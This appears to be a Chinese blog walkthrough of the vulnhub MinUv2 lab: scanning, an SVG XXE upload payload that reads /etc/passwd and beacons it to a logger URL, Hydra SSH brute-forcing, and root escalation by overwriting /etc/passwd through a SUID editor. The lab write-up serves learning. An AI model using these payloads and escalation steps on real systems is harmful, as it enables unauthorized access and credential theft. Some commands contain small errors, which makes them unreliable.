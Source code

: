 ```yaml
---
layout: post
toc: true
title: "「渗透」SVG的神秘力量：minUv2"
date: 2019-09-01
author: Bin4xin
categories: blog
tags:
- Web
- 漏洞复现
- 渗透
- vulnhub
permalink: /blog/2019/minUv2/
---
```


- categories:
    - blog
    - Web
    - 漏洞复现
    - 渗透
    - vulnhub

# 序言
hello,各位。最近闲来无事，工作之余偷偷用公司电脑测试入侵了一个linux靶机，遂记录下。（手动狗头）
这个靶机本身难度适中，复现了svg的代码执行漏洞且要求对linux的系统命令较为熟悉；svg大体来说是一种图像文件格式，基于XML，由W3C联盟进行开发的，支持网页打开，编辑方便等。可以自行深入搜索~各位大佬见笑。
## 一、靶机简介
minUv2下载地址:

<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z">Download (Mirror)</a>

<a href="https://download.vulnhub.com/minu/MinUv2.ova.7z.torrent">Download (Torrent)</a>


## 二、实战
江湖规矩，神器开路：首先先用`Nmap`扫描确定靶机地址。发现靶机ip。
这里靶机只支持vbox，所以得桥接通信，打码请谅解~

![](https://p2.ssl.qhimg.com/t0167faf934cb9977ca.png)

确定ip直接端口扫描~
![](https://p4.ssl.qhimg.com/t011687f39e33bbe3e4.png)
发现只开放了两个端口：`22、3306`端口。22端口暂时先放着不管，咱们看看3306端口。
是一个web页面，emmmm.主角登场，svg图像~
![](https://p0.ssl.qhimg.com/t019035849ce7a48ccf.png)

## 三、发现漏洞
小弟赶紧dirb扫描一波，果然有发现。

```
#扫描3306端口下的html后缀的文件
dirb http://$_ip:port -X .html
--------------
+ http://$_ip:port/upload.html (CODE:200|SIZE:908)
--------------
DOWNLOADED: 4612 - FOUND: 1
```
发现了上传网页，且只能上传svg、img文件，又惊又喜。exp搜索一哈找到poc，验证一下漏洞的存在。poc代码如下：
```
#poc上传上去页面回显
#<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY xxe SYSTEM "/etc/passwd">
]>
<svg version="1.0" xmlns="http://www.w3.org/2000/svg" width="19000px" xmlns:xlink="http://www.w3.org/1999/xlink" >
<text x="-1000" y="-1000" >&xxe;</text>
<circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" 		fill="red" />
<script>
var logger = "http://localhost/?file=" +
encodeURIComponent(document.getElementsByTagName("text")	[0].innerHTML);
document.createElementNS('http://www.w3.org/2000/svg','image').setAttributeNS('http://www.w3.org/1999/xlink','href', logger);
</script></svg>
```

果然有`xxe`漏洞，但是验证了漏洞不能让我们有实际的渗透进展，只能对一些文件内容进行查看，无法得到shell，要怎么办呢？

![](https://p1.ssl.qhimg.com/t0163eb735e597071e2.png)

## 四、get shell
就在小弟愁眉苦脸的时候，忽然看到最后一行用户名的进程是/bin/ash，想到bash shell会有历史纪录，赶紧重新上传一个poc验证想法。回显内容：<br>
```
"./ash.history"获取~
Useradd –D bossdonttrackme –p superultrapass3
```
根据所得的内容生成用户字典（passwd回显的用户名），密码字典。用Hydra跑一下。
```
##hydra -L /root/Documents/test/minu/use.txt -P /root/Documents/test/minu/passwd.txt ssh://$_ip
Hydra v8.9.1 (c) 2019 by van Hauser/THC - Please do not use in military or 
secret service organizations, or for illegal purposes.
[WARNING] Many SSH configurations limit the number of parallel tasks, it is
recommended to reduce the tasks: use -t 4	[DATA] max 16 tasks per 1 server, overall 16 tasks, 30 login tries (l:30/p:1), ~2 tries per task
[DATA] attacking ssh://$_ip:22/
[22][ssh] host: $_ip ** login: employee password: superultrapass3**
1 of 1 target successfully completed, 1 valid password found
##跑出来账号密码employee：uperultrapass3，ssh连上去。
##连接上去查看一下基本信息 
ssh employee@ip
whoami
id | find -perm -4000 2>/dev/null
```
![](https://p5.ssl.qhimg.com/t013dbd6663c5c9720e.png)

## 五、提权
发现`micro`和`bbsuid`不需要高权限，运行一下，发现micro是一个`文本编辑工具器`。接下来就简单了。
```
#生成一份hash值，替换掉passwd的用户密码，这样密码就已知了。
#用micro编辑器打开passwd文件，替换root密码保存即可
passwd -1 -salty root admin123(随意)
cat /etc/passwd |/usr/bin/micro
```
![](https://p5.ssl.qhimg.com/t0198aaa755e6394b0f.png)

这样我们就已知root密码了，直接切换用户
```
minuv2:~$ su root
Password: 
minuv2:/home/employee# whoami
root
minuv2:/home/employee#
```
![](https://p2.ssl.qhimg.com/t01aefe59b403bdcc5c.png)
获得flag~感谢各位


